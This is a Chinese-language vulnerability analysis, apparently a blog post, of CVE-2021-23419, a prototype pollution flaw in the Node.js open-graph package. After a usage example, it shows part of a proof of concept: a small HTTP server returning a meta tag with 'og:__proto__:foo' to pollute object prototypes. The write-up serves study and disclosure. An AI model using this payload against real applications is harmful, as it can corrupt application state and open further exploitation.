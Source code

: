 ## 0x02 open-graph 包简介

- github 地址：[ node-open-graph](https://github.com/samholmes/node-open-graph)
- snyk.io 地址：[open-graph vulnerabilities](https://snyk.io/vuln/npm:open-graph)

open-graph 是 Node.js 的 Open Graph 实现。

用法如下：

```js
const og = require('open-graph');

const url = 'http://github.com/samholmes/node-open-graph/raw/master/test.html';

og(url, function (err, meta) {
  console.log(meta);
});
```

Outputs:

```json
{
  title: 'OG Testing',
  type: 'website',
  url: 'http://github.com/samholmes/node-open-graph/raw/master/test.html',
  site_name: 'irrelavent',
  description: 'This is a test bed for Open Graph protocol.',
  image: {
    url: 'http://google.com/images/logo.gif',
    width: '100',
    height: '100'
  }
}
```

open-graph 向外提供 og 函数，主要功能可以分为两个部分：

- 根据 url 获得 mata 标签内容。
- 很具 open graph 协议解析 meta 标签的内容并存入一个 Object 对象中。

其中第二步涉及到了对象的递归赋值，因此造成原型链污染漏洞。

## 0x03 漏洞原理分析

open-graph 库在 8月5日被披露存在原型链污染漏洞，CVE号为 CVE-2021-23419，目前最新版本为 0.2.6，漏洞已修复，复现分析原理时可以安装 0.2.4 版本。

poc 如下：

分为server.js 与 client.js。

server.js，其实也就是一个回显 meta 标签的 web 服务。

```js
const http = require('http');

http.createServer((req, res) => {
    res.write('<meta property="og:__proto__:foo" content="polluted" />');
    res.end();
}).listen(8080);
```
